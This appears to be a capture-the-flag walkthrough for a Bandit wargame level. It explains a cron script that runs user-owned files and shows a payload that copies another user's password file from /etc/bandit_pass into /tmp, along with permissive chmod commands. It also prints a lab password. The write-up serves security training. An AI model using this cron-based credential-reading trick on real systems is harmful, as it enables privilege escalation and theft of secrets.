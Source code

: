 Level password: `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

Same first step as the last 2 levels. But the bandit24 crontab script is different:

```sh
cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

```sh
for i in * .*;
```

This loops over each file within the current directory.

```sh
if [ "$i" != "." -a "$i" != ".." ];
```

This skips over files that's named `.` or `..`, which are important directories.

```sh
owner="$(stat --format "%U" ./$i)"
```

This gets the owner of the file to be executed name.

```sh
stat --format "%U" ./$i
```

`stat` displays the file status, `--format "%U"` allows outputting the specified format instead of the default.

```sh
if [ "${owner}" = "bandit23" ]; then
	timeout -s 9 60 ./$i
fi
```

This checks whether the owner of the file is `bandit23`. If it is then it executes it. But it will timeout after 60 seconds. When it timeout, it sends a signal `9` to the process. The 9th signal is the `kill` signal (use `kill -l` to list the signals).

```sh
rm -f ./$i
```

This force delete the current file being processed.

What we can extract from this script is that this crontab executes any files in the `/var/spool/current_username/foo/` and delete it. Specifically, for files that is owned by user *bandit23* (aka us), it would run the executable for 60 seconds then kill it. This means the script would run with the permissions of user *bandit24*. So we could create our own script and to read the password of bandit24 and write it into a file that we could access:

```sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/temp_dir/password.txt
```

Before we could do anything, we need to modify the permission so that the crontab could access the directory that houses the password file, the password file itself, and the permission of the script itself:

```sh
chmod +rx script.sh
chmod a+rwx /tmp/temp_dir
chmod +rw password.txt
```

Then we copy the script to the `/var/spool/bandit24/foo/` directory and wait for it to execute:

```sh
cp script.sh /var/spool/bandit24/foo/
```